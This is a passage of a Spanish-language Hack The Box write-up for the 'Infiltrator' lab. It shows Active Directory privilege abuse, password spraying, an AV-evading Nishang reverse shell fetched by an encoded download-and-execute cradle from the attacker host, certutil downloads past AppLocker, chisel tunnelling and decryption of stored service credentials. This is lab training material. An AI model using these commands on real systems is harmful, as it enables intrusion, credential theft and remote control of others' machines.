A través de `bloodyAD` realizamos el cambio de contraseña del usuario mencionado. Posteriormente a través de `nxc`,verificamos que el cambio se realizó correctamente.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'd.anderson' -k set password 'e.rodriguez' 'Password01!'
[+] Password changed successfully!

❯ nxc smb dc01.infiltrator.htb -u 'e.rodriguez' -p 'Password01!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\e.rodriguez:Password01!
```

### Abusing AddSelf privileges to add myself on a group

Revisando nuevamente en la ruta que encontramos en `BloodHound`, verificamos que el usuario que disponemos actualmente tiene permisos de `AddSelf` sobre el grupo `CHIEFS MARKETING`.

Por lo tanto, el usuario dispone de permisos para añadirse a sí mismo al grupo mencionado.

<figure><figcaption></figcaption></figure>

Lo primero de todo será solicitar un TGT (Ticket Granting Ticket) del usuario `e.rodriguez@infiltrator.htb`. Almacenaremos el ticket TGT en la variable `KRB5CCNAME` y validaremos que esté correctamente configurada.

```bash
❯ impacket-getTGT infiltrator.htb/e.rodriguez:'Password01!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in e.rodriguez.ccache

❯ export KRB5CCNAME=$(pwd)/e.rodriguez.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/e.rodriguez.ccache
Default principal: e.rodriguez@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:30:25  18/01/25 07:30:25  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 21:30:33, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```

A través de `bloodyAD`, nos añadiremos a nosotros mismos al grupo `CHIEFS MARKETING`. Verificamos que nos aparece que nos hemos añadido correctamente a través de `ldapsearch`.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'e.rodriguez' -k add groupMember 'CHIEFS MARKETING' 'e.rodriguez'
[+] e.rodriguez added to CHIEFS MARKETING

❯ ldapsearch -x -H ldap://10.10.11.31 -D "CN=E.Rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb" -w 'Password01!' -b "CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb" member
#
# LDAPv3
# base <CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#
# Chiefs Marketing, Users, infiltrator.htb
dn: CN=Chiefs Marketing,CN=Users,DC=infiltrator,DC=htb
member: CN=E.rodriguez,OU=Marketing Digital,DC=infiltrator,DC=htb
member: CN=A.walker,CN=Users,DC=infiltrator,DC=htb
member: CN=O.martinez,CN=Users,DC=infiltrator,DC=htb
```

### Abuse ForceChangePassword privileges to change a user's password

En `BloodHound` verificamos que los miembros del grupo `CHIEFS MARKETING` disponen del permiso `ForceChangePassword` sobre el usuario `m.harris@infiltrator.htb`, pudiendo modifcarle la contraseña sin disponer de la actual del usuario.

<figure><figcaption></figcaption></figure>

Realizaremos el cambio de contraseña del usuario `m.harris@infiltrator.htb` a través de la herramienta de `bloodyAD`, verificaremos que se ha modificado correctamente las credenciales.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'e.rodriguez' -k set password 'm.harris' 'Password01!'
[+] Password changed successfully!

❯ nxc smb dc01.infiltrator.htb -u 'm.harris' -p 'Password01!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:Password01! 
```

### Abuse CanPSRemote privileges to connect with machine

Revisando nuevamente en `BloodHound`, verificamos que el usuario que disponemos tiene privilegios de `CanPSRemote` sobre el Domain Controller `DC01`. Esto nos proporciona el privilegio de acceder remotamente al equipo, mediante WinRM o RDP.

<figure><figcaption></figcaption></figure>

Procederemos a solicitar el TGT (Ticket Granting Ticket) del usuario actual, verificaremos que se encuentra correctamente configurado el TGT.

```bash
❯ impacket-getTGT infiltrator.htb/m.harris:'Password01!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.harris.ccache

❯ export KRB5CCNAME=$(pwd)/m.harris.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/m.harris.ccache
Default principal: m.harris@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:40:23  18/01/25 01:40:23  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 01:40:23, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```

Nos conectaremos mediante `evil-winrm` al DC y verificaremos la flag de **user.txt**.

```bash
❯ evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> type ../Desktop/user.txt
0e37c6698b4b********************
```

En esta máquina por x motivos no funciona correctamente WnRM, al menos en mi caso se quitaba la conexión cada x tiempo.

Por lo tanto, lo que hicimos fue utilizar la Reverse Shell del repositorio de `Nishang`. Renombramos el archivo `Invoke-PowerShellTcp.ps1` a `rev.ps1`. Deberemos modificar el archivo para que realice el `Invoke` de la Reverse Shell al final del script. En este caso, modificamos un poco el script para que el AV no lo detecte tan facilmente.

```bash
❯ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .

❯ mv Invoke-PowerShellTcp.ps1 rev.ps1

❯ nvim rev.ps1

❯ head -n 1 rev.ps1 && tail -n 1 rev.ps1
function Gzzcoo
Gzzcoo -Reverse -IPAddress 10.10.16.5 -Port 443
```

Nos ponemos en escucha por el puerto indicado en el script `rev.ps1`.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Codificamos en Base64 de Windows el comando que desde el equipo `DC01` ejecutaremos y levantaremos un servidor web con Python.

<pre class="language-bash"><code class="lang-bash">❯ echo 'IEX(New-Object Net.WebClient).downloadString("http://10.10.16.5/rev.ps1")' | iconv -t utf-16le | base64 -w 0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADUALwByAGUAdgAuAHAAcwAxACIAKQAKAA==
<strong>
</strong><strong>❯ python3 -m http.server 80
</strong>Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
</code></pre>

Desde la consola donde hemos iniciado sesión con `evil-winrm`, ejecutaremos el comando encodeado en Base64 para otorgarnos la Reverse Shell.

```bash
*Evil-WinRM* PS C:\> powershell -e <BASE64_CODE>
```

Verificamos que hemos logrado obtener el acceso correctamente al equipo, desde esta terminal no tendremos problemas de desconexión al equipo.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.31] 62397
Windows PowerShell running as user M.harris on DC01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\>whoami
infiltrator\m.harris
```

## Output Messenger

En la enumeración inicial del equipo, nos encontramos que se encontraba instalado una aplicación llamada `Output Messenger`, algo inusual en máquinas de HTB.

```bash
PS C:\Program Files> ls

    Directory: C:\Program Files


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        12/4/2023   9:22 AM                Common Files                                                          
d-----        8/21/2024   1:50 PM                Hyper-V                                                               
d-----        2/19/2024   3:52 AM                internet explorer                                                     
d-----        2/23/2024   5:06 AM                Output Messenger                                                      
d-----        1/17/2025   7:02 AM                Output Messenger Server
...[snip]...
```

Realizamos una búsqueda por internet sobre la aplicación. Al parecer, es una aplicación bastante parecida a Microsoft Teams.


Output Messenger --> Herramienta de colaboración que permite la productividad del equipo a través de mensajería LAN instantánea, transferencia de archivos, uso compartido de escritorio remoto y más.


<figure><figcaption></figcaption></figure>

Para buscar posibles vectores de escalar nuestros privilegios en la máquina víctima, decidimos hacer uso de la herramienta de `winPEAS.exe`. Este binario lo deberemos de disponer en nuestro equipo local, lo compartiremos a través de un servidor web.

```bash
❯ ls -l winPEASx64.exe
.rw-r--r-- kali kali 9.4 MB Fri Jan 17 22:00:43 2025  winPEASx64.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, procederemos a descargar el binario en una ruta que el AppLocker no lo detecte.

```powershell
PS C:\Windows\System32\spool\drivers\color> certutil.exe -f -urlcache -split http://10.10.16.5/winPEASx64.exe wPE.exe
****  Online  ****
  000000  ...
  962e00
CertUtil: -URLCache command completed successfully.
PS C:\Windows\System32\spool\drivers\color> 
```

Ejecutaremos el `winPEAS.exe` y el output lo almacenaremos en un archivo llamado `result.txt`.

```powershell
PS C:\Windows\System32\spool\drivers\color> ./wPE.exe > result.txt
PS C:\Windows\System32\spool\drivers\color> ls

    Directory: C:\Windows\System32\spool\drivers\color


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
...[snip]...                                                        
-a----        1/17/2025   1:05 PM         271602 result.txt                                                                                                   
-a----        1/17/2025   1:03 PM        9842176 wPE.exe 
```

Para compartirnos este resultado en nuestro equipo local, decidimos en levantar un servidor SMB en nuestra Kali.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Copiaremos el archivo `result.txt` en el recurso compartido SMB que hemos levantado desde Kali.

```powershell
PS C:\Windows\System32\spool\drivers\color> copy result.txt \\10.10.16.5\smbFolder\result.txt
```

Revisando el resultado obtenido del escaneo de `winPEAS`, verificamos que existen varios puertos en escucha sobre la aplicación de `Output Messenger`. Lo cual nos hace pensar que la aplicación está en ejecución en el DC actualmente.

<figure><figcaption></figcaption></figure>

### Performing a Windows port forwarding to my Kali machine

Disponemos de los siguientes puertos que utiliza la aplicación `Output Messenger`, nuestro objetivo será compartir estos puertos internos del DC hacía nuestra Kali Linux mediante _**Port Forwarding**_.


14118 14119 14121 14122 14123 14125 14126 14127 14128 14130 14406


En nuestra Kali, deberemos de disponer de los binario de chisel para UNIX y Windows. El binario de `chisel.exe` lo dberemos de compartir en el Domain Controller a través de un servidor web.

```bash
❯ ls -l chisel*
.rwxr-xr-x root root 8.9 MB Fri Jan 17 22:34:37 2025  chisel
.rw-r--r-- root root 9.3 MB Fri Jan 17 22:34:34 2025  chisel.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, descargaremos el binario `chisel.exe` en la ruta donde el AppLocker no nos lo detecte.

```powershell
PS C:\Windows\System32\spool\drivers\color> certutil.exe -f -urlcache -split http://10.10.16.5/chisel.exe chisel.exe
****  Online  ****
  000000  ...
  94f000


CertUtil: -URLCache command completed successfully.
```

Configuraremos el `chisel` como servidor en nuestra máquina Kali, el puerto de servidor que utilizaremos es el _**1234**._

```bash
❯ ./chisel server --reverse -p 1234
2025/01/17 22:40:37 server: Reverse tunnelling enabled
2025/01/17 22:40:37 server: Fingerprint I6Ynm0ZTnuYDUNAGFMMgzfXZBpDcrTUbgapoYk6CTMc=
2025/01/17 22:40:37 server: Listening on http://0.0.0.0:1234
```

Desde la máquina víctima, la configuaremos como cliente para que se conecte al servidor de nuestra Kali. Compartiremos todos los puertos internos que utiliza la aplicación `Output Messenger` para que sean los mismos puertos en nuestra Kali Linux.


```powershell
PS C:\Windows\System32\spool\drivers\color> .\chisel.exe client 10.10.16.5:1234 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
```


Desde Kali revisaremos que disponemos de los puertos en `LISTEN`, significando que se ha realizado el Port Forwarding correctamente y ya los tenemos accesibles desde nuestro equipo.

```bash
❯ netstat -ano | grep "LISTEN"
tcp6       0      0 :::1234                 :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14121                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14122                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14123                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14125                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14126                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14127                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14118                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14119                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14128                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14130                :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::14406                :::*                    LISTEN      off (0.00/0/0)
```

### Sharing the OpenVPN Connection from Linux with Windows so we can have two boxes connected simultaniously

La aplicación de `Output Messenger`, al parecer desde Linux no funciona, por lo cual decidimos probar de utilizarla en una máquina Windows que disponíamos.

El problema aquí es que los puertos que hemos realizado el Port Forwarding se encuentran en nuestra máquina Kali, podríamos realizar nuevamente el Port Forwarding con `chisel` para compartir los puertos de Kali hacía nuestro otro equipo Windows.

***

En este caso, optamos por compartir nuestra conexión de `OpenVPN` de Kali Linux con la máquina Windows para tener ambas máquinas conectadas simulteanamente.

Primero de todo, deberemos de habilitar el reenvío de paquetes. Después configuramos las reglas de las tablas de filtrado `iptables` para permitir el tráfico entrante y saliente desde la interfaz `tun0` (OpenVPN) hacia `eth0` (la interfaz de red física).

Verificamos la dirección IP que disponemos en Kali Linux para realizar el MASQUERADE y poder compartir la conexión de Kali Linux, usamos una regla en la tabla `NAT`.

```bash
❯ echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
1
❯ catnp /proc/sys/net/ipv4/ip_forward
1
❯ sudo iptables -A FORWARD -i tun0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
❯ sudo iptables -A FORWARD -i eth0 -o tun0 -j ACCEPT
❯ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.249.128  netmask 255.255.255.0  broadcast 192.168.249.255
        inet6 fe80::17ec:5b0f:745a:a939  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:8f:cb:51  txqueuelen 1000  (Ethernet)
        RX packets 398298  bytes 93414302 (89.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 354211  bytes 137266652 (130.9 MiB)
        TX errors 0  dropped 116 overruns 0  carrier 0  collisions 0

❯ sudo iptables -t nat -A POSTROUTING -s 192.168.249.0/24 -o tun0 -j MASQUERADE
```

Desde nuestra máquina Windows (atacante) verificamos que no disponemos de conexión al equipo del Domain Controller aún.

```powershell
PS C:\Windows\system32> ping -n 1 10.10.11.31

Pinging 10.10.11.31 with 32 bytes of data:
Request timed out.

Ping statistics for 10.10.11.31:
    Packets: Sent = 1, Received = 0, Lost = 1 (100% loss),
PS C:\Windows\system32>
```

Por lo tanto, tuvimos que agregar manualmente las rutas necesarias para que Windows pueda comunicarse correctamente con las redes detrás de la VPN. Verificamos que disponemos de conexión con el DC y con la IP de nuestra Kali de la interfaz `tun0`.

```powershell
PS C:\Windows\system32> route add 10.10.10.0/23 mask 255.255.254.0 192.168.249.128
 OK!
PS C:\Windows\system32> ping -n 1 10.10.11.31

Pinging 10.10.11.31 with 32 bytes of data:
Reply from 10.10.11.31: bytes=32 time=32ms TTL=126

Ping statistics for 10.10.11.31:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 32ms, Maximum = 32ms, Average = 32ms
PS C:\Windows\system32>
PS C:\Windows\system32> route add 10.10.16.0/16 mask 255.255.0.0 192.168.249.128
 OK!
PS C:\Windows\system32> ping -n 1 10.10.16.5

Pinging 10.10.16.5 with 32 bytes of data:
Reply from 10.10.16.5: bytes=32 time=3ms TTL=64

Ping statistics for 10.10.16.5:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 3ms, Maximum = 3ms, Average = 3ms
PS C:\Windows\system32>
```

### Logging in as k.turner in Output Messenger

Descargaremos la aplicación de `Output Messenger` desde el siguiente enlace, deberemos de descargar la versión de Cliente Windows.



Si bien recordamos, en la enumeración de LDAP, encontramos en el campo _**Description**_ lo que parecía ser una contraseña.

<figure><figcaption></figcaption></figure>

Abriremos la aplicación de `Output Messenger` y procederemos a iniciar sesión con las credenciales `k.turner/MessengerApp@Pass!`. La dirección IP que especificaremos es la que disponemos en nuestra máquina Kali de la interfaz física `eth0`.

<figure><figcaption></figcaption></figure>

Perfecto, hemos podido iniciar sesión en la aplicación con el usuario`k.turner`. A continuación, deberemos explorar los diferentes chats y funciones para intentar buscar algún tipo de información interesante.

En el **chatroom** `Dev_chat` encontramos la siguiente conversación, donde se discute el desarrollo de una herramienta llamada `UserExplorer.exe` para recuperar información de usuarios desde un servidor LDAP. Aquí algunos puntos clave y lo más interesante:

* **Desarrollo de la herramienta**: Se está creando una aplicación que permitirá obtener detalles de los usuarios de LDAP, como nombre, correo electrónico y teléfono, utilizando el protocolo LDAP.
* **Seguridad en las credenciales**: Se ha implementado el uso del descifrado AES para manejar las contraseñas, garantizando así la confidencialidad de los datos sensibles.
* **Opciones de entrada**: La herramienta admitirá argumentos de línea de comandos para el nombre de usuario, la contraseña y el usuario buscado, ofreciendo una opción predeterminada para facilitar el uso.
* **Estado actual**: Actualmente, la aplicación está en fase de pruebas exhaustivas realizadas por el equipo de control de calidad, y se están refinando los mensajes de error para asegurar una experiencia fluida para el usuario.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Information leakage (password filtered in notices)

Si nos dirigimos al apartado de `Notices`, vemos una noticia que habla sobre una alerta sobre la autenticación previa se encuentra deshabilitada en Kerberos para algunos usuarios. Esto nos confirma el motivo por el cual algunos usuarios aparecían como restringidos.

<figure><figcaption></figcaption></figure>

Por otro lado, también vemos que en las noticias aparecen lo que parecen ser las credenciales de acceso del usuario `m.harris@infiltrator.htb`.

<figure><figcaption></figcaption></figure>

Probaremos de  realizar un _**Password Spraying**_ para verificar si estas credenciales son válidas para algún usuario.

```bash
❯ nxc smb dc01.infiltrator.htb -u users.txt -p 'D3v3l0p3r_Pass@1337!' -k --continue-on-success
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\d.anderson:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\o.martinez:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\a.walker:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\m.harris:D3v3l0p3r_Pass@1337! 
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\e.rodriguez:D3v3l0p3r_Pass@1337! KDC_ERR_PREAUTH_FAILED 
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\l.clark account vulnerable to asreproast attack
```

### Logging in as m.harris in Output Messenger

Probaremos de autenticarnos en la aplicación de `Output Messenger` en busca de ver si con este usuario tenemos más información interesante que nos pueda servir.

<figure><figcaption></figcaption></figure>

Vemos que disponemos de un chat con el usuario `Admin`, el cual nos comparte el binario de la aplicación `UserExplorer.exe` que anteriormente estuvieron hablando en el chat de `Dev_Chat`. Nos descargaremos el binario accediendo a través de la opción de `Open Folder`.&#x20;

<figure><figcaption></figcaption></figure>

Dispondremos del binario de `UserExplorer.exe`, el cual realizaremos una copia en nuestro `Desktop`.

<figure><figcaption></figcaption></figure>

#### Debugging with dnSpy

Al analizar el binario, nos encontramos que aparecen las credenciales cifradas del usuario `winrm_svc`. Si bien recordamos en la conversación del **chatroom** de `Dev_Chat`, estaban intentando cifrar esta contraseña en cifrado `AES`.

<figure><figcaption></figcaption></figure>

A través del siguiente script, lo que realizaremos es descodificar la contraseña cifrada para obtenerla en texto plano.


```python
from Crypto.Cipher import AES
import base64

def decrypt_string(key, cipher_text):
    key_bytes = key.encode('utf-8')
    cipher_bytes = base64.b64decode(cipher_text)

    cipher = AES.new(key_bytes, AES.MODE_CBC, b'\x00' * 16)
    decrypted_bytes = cipher.decrypt(cipher_bytes)

    # Elimina el relleno PKCS7 (donde el último byte indica la cantidad de relleno)
    padding_length = decrypted_bytes[-1]
    decrypted_bytes = decrypted_bytes[:-padding_length]

    decrypted_text = decrypted_bytes.decode('utf-8')
    return decrypted_text

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 2:
        print("Usage: python decrypt_script.py <cipher_text>")
        sys.exit(1)
    
    cipher_text = sys.argv[1]
    
    key = "b14ca5898a4e4133bbce2ea2315a1916"  # Clave para AES
    decrypted_text = decrypt_string(key, cipher_text)
    print(f"Contraseña descifrada: {decrypted_text}")
```


Al ejecutar el script y pasarle el valor de la contraseña cifrado, verificamos que nos devolvío un string parecido a Base64. Al intentar descodificar el contenido en Base64 no nos devolvió un resultado legible.

Por lo que volvimos a ejecutar el script pero indicándole este nuevo valor obtenido. Al parecer pudimos desencriptar la contraseña cifrada y obtener la contraseña en texto plano.

```bash
❯ python decrypt.py TGlu22oo8GIHRkJBBpZ1nQ/x6l36MVj3Ukv4Hw86qGE=
Contraseña descifrada: SKqwQk81tgq+C3V7pzc1SA==
❯ echo 'SKqwQk81tgq+C3V7pzc1SA==' | base64 -d; echo
H��BO5�
�
 u{�75H
❯ python decrypt.py SKqwQk81tgq+C3V7pzc1SA==
Contraseña descifrada: WinRm@$svc^!^P
```

Validamos que efectivamente estas credenciales son válidas para el usuario `winrm_svc@infiltrator.htb`.

```bash
❯ nxc smb dc01.infiltrator.htb -u 'winrm_svc' -p 'WinRm@$svc^!^P' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\winrm_svc:WinRm@$svc^!^P 
```

### Logging in winrm\_svc in Output Messenger

Probaremos de acceder a `Output Messenger` con las credenciales recién obtenidas.

<figure><figcaption></figcaption></figure>

Revisando los chats, `O. Martínez` reportó que recibe ventanas emergentes de sitios web al azar todos los días a las 09:00 a. m. Durante la conversación, mencionó que no ha compartido su contraseña, salvo con el grupo `Chiefs_Marketing_chat`.

Esto nos interesa, ya que revisar las conversaciones de ese grupo podría revelar detalles sobre la contraseña del usuario, permitiéndonos verificar su validez y potencialmente utilizarla para realizar ataques de pivoting o escalar privilegios.

<figure><figcaption></figcaption></figure>

Por otro lado, en la sección de notas, verificamos que nos aparece una API Key, deberemos investigar si podemos hacer uso de esta API Key en algún servicio.


lan\_managment api key 558R501T5I6024Y8JV3B7KOUN1A518GG


<figure><figcaption></figcaption></figure>

#### Using Output Messenger API to retrieve conversations logs on a group

Buscamos por internet información sobre la API de `Output Messenger`, en la cual nos encontramos con la siguiente página en donde nos informa como poder utilizar la API de la aplicación.



<figure><figcaption></figcaption></figure>

Revisando más información sobre las posibilidades del uso del API, verificamos que hay un apartado en el cual a través de la API, podemos visualizar los logs de un **chat room.**

Esto nos interesa bastante, debido que si bien recordamos, el usuario `O.martinez` compartió sus credenciales en el chat `Chiefs_marketing_chat`.

Para poder comprobar los logs del **chat room**, necesitaríamos los siguientes datos:

* `[roomkey]` - Chat Room Key.
* \[fromdate] - Start Date.
* `[todate]` - End Date.

Nos faltaría saber cual es la `roomkey` del **chat room** que queremos revisar los logs.



<figure><figcaption></figcaption></figure>

Para empezar, primero revisaremos como funciona la API, en este ejemplo, se nos muestra como authenticarnos a través de nuestra **API-KEY**.



<figure><figcaption></figcaption></figure>


Desde nuestra máquina Kali, interceptaremos la solicitud con _**FoxyProxy**_ y _**BurpSuite**_ sobre la dirección [http://127.0.0.1:14125/api/users](http://127.0.0.1:14125/api/users), lo realizamos desde localhost (127.0.0.1) ya que anteriormente nos compartimos los puertos internos del DC a nuestra Kali Linux.

<figure><figcaption></figcaption></figure>

Al tener la solicitud interceptada en _**BurpSuite**_, le indicaremos la `API-KEY` que encontramos anteriormente. Verificamos que hemos podido consultar los usuarios correctamente tal y como nos indicaba el ejemplo de `Authentication`.&#x20;

<figure><figcaption></figcaption></figure>

Ya sabemos como utilizar el `API-KEY` para utilizar la API, ahora lo único que nos queda es saber cual es el `roomkey` del **chat room** de `Chiefs_Marketing_chat`.

Después de una larga búsqueda, decidimos revisar si en el `AppData` del usuario `winrm_svc` había algún dato interesante.

Revisando los grupos a los que formaba parte el usuario `winrm_svc`, verificamos que formaba parte del grupo `Remote Management Users`, por lo tanto nos podremos conectar en remoto al equipo.

<figure><figcaption></figcaption></figure>

Para ello, primero deberemos de solicitar un TGT (Ticket Granting Ticket) del usuario, almacenarlo en la variable `KRB5CCNAME` y verificar que el ticket TGT esté correctamente configurado.

```bash
❯ impacket-getTGT infiltrator.htb/winrm_svc:'WinRm@$svc^!^P'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in winrm_svc.ccache

❯ export KRB5CCNAME=$(pwd)/winrm_svc.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/winrm_svc.ccache
Default principal: winrm_svc@INFILTRATOR.HTB

Valid starting     Expires            Service principal
18/01/25 00:27:56  18/01/25 10:27:56  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 19/01/25 00:28:04, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```

Al proceder a conectarnos al equipo mediante `evil-winrm` y, revisando el directorio `AppData` nos encontramos con dos archivos `.db3` que quizás podríamos llegar a encontrar información interesante. Nos descargamos ambos archivos para tenerlos localmente en nuestro equipo.

```bash
❯ evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> cd "C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA"
*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> ls


    Directory: C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/25/2024   7:20 AM                Audios
d-----        2/25/2024   7:20 AM                CalendarFiles
d-----        2/25/2024   7:26 AM                Log
d-----        2/25/2024   7:20 AM                MailInbox
d-----        2/25/2024   7:20 AM                MailSent
d-----        2/25/2024   7:20 AM                Received Files
d-----        2/25/2024   7:20 AM                Screenshots
d-----        2/25/2024   7:20 AM                Temp
d-----        2/25/2024   7:20 AM                Theme
-a----        2/25/2024   7:20 AM          29696 OM.db3
-a----        2/25/2024   7:20 AM          13312 OT.db3


*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> download OM.db3
                                        
Info: Downloading C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA\OM.db3 to OM.db3
                                        
Info: Download successful!

*Evil-WinRM* PS C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA> download OT.db3
                                        
Info: Downloading C:\Users\winrm_svc\AppData\Roaming\Output Messenger\JAAA\OT.db3 to OT.db3
                                        
Info: Download successful!

```

Al revisar el archivo `OM.db3` con la herramienta de `sqlite3`, verificamos que hemos logrado obtener la `roomkey` del chat `Chiefs_Marketing_chat.`

```bash
❯ ls -l OM.db3
.rwxrwxr-x kali kali 31 KB Fri Jan 17 23:58:16 2025  OM.db3

❯ sqlite3 OM.db3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
om_chatroom               om_drive_files            om_preset_message       
om_chatroom_user          om_escape_message         om_reminder             
om_custom_group_new       om_hide_usergroup         om_settings             
om_custom_group_user_new  om_notes                  om_user_master          
